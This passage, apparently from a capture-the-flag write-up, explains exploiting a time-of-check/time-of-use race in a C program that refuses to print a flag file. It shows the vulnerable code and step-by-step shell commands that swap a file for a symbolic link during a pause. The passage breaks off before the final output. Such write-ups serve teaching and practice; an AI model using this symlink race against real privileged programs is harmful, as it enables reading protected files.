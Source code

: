 ```c
    puts("<Press Enter to continue>");
    getchar();
    
    if (path_check || symlink_check) {
        puts("Nice try, but I refuse to give you the flag!");
        return 1;
    } else {
        puts("This file can't possibly be the flag. I'll print it out for you:\n");
        int fd = open(argv[1], 0);
        assert(fd >= 0 && "Failed to open the file");
        while((n = read(fd, buf, 1024)) > 0 && write(1, buf, n) > 0);
    }
    
    return 0;
}
```

When we run the c program, we won't get the flag

```bash
race@car:/home/walk$ ./anti_flag_reader flag
Checking if 'flag' is in the provided file path...
Checking if the file is a symlink...
<Press Enter to continue>

Nice try, but I refuse to give you the flag!
```

We notice there is a moment where we have to press enter, after the checks are being done, which allows us to perform a race condition.

1. We run a second SSH terminal where we create a file that contains some text, which we will later use as a symbolic link to the flag
    ```bash
    race@car:~$ echo init > link
    ```
2. We run the program but don't press enter
    ```bash
    race@car:~$ ../walk/anti_flag_reader link
    Checking if 'flag' is in the provided file path...
    Checking if the file is a symlink...
    <Press Enter to continue>
    ```
3. We overwrite the `link` file with a symbolic link to the flag file, now that the checks already have been executed.
    ```bash
    race@car:~$ ln -sf ../walk/flag link
    ```
4. We press enter, and get the flag
    ```bash
    Checking if 'flag' is in the provided file path...
    Checking if the file is a symlink...
    <Press Enter to continue>
